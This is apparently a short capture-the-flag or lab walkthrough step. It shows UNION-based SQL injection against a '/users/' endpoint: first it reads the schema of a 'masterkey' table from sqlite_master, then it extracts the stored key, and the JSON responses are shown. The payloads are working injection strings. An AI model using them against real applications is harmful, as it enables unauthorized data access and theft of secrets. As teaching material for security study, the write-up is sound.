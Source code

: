 


## show columns of **`masterkey`** table

```
/users/-1 UNION SELECT 1,name,sql,4,5 FROM sqlite_master WHERE name='masterkey'--
```

found one 

```json
[
  {
    "id": 1,
    "name": "masterkey",
    "email": "CREATE TABLE masterkey ( id INTEGER PRIMARY KEY AUTOINCREMENT, masterkey TEXT )",
    "created_at": 4,
    "updated_at": 5
  }
]
```


## now get content of it 

```url
/users/-1 UNION SELECT 1,masterkey,3,4,5 FROM masterkey--
```

```json
[
  {
    "id": 1,
    "name": "cfc8ed823104d9d686fa0dbeb3826dfb",
    "email": "3",
    "created_at": 4,
    "updated_at": 5
  }
]
```

















